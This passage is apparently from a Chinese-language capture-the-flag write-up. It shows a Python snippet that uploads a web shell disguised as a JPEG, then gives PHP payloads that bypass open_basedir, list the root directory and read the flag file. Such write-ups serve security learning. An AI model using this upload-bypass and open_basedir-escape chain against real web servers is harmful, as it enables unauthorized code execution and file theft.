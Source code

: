 	files = {'file':('shell.ahhh',shell,'image/jpeg')}
	response = requests.post(url=url, data=data, files=files)
	print(response.text)
	```

![02.png](https://ae04.alicdn.com/kf/U8ab36d268f2c4e338ff91bd9e73355d6W.jpg)         

访问一句话文件，![03.png](https://ae02.alicdn.com/kf/U1b0011f9ec664565ad977d32c46423b74.jpg)     
可用     
但没法直接读文件       
需要绕过`open_basedir`          

[从PHP底层看open_basedir bypass](https://skysec.top/2019/04/12/%E4%BB%8EPHP%E5%BA%95%E5%B1%82%E7%9C%8Bopen-basedir-bypass/#%E5%89%8D%E8%A8%80)         

payload:`cmd=chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(scandir("/"));`![04.png](https://ae03.alicdn.com/kf/U043edb17de044c79b82910e8d280915b7.jpg)         

payload:`cmd=chdir('img');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(file_get_contents("/THis_Is_tHe_F14g"));`

得到flag       
         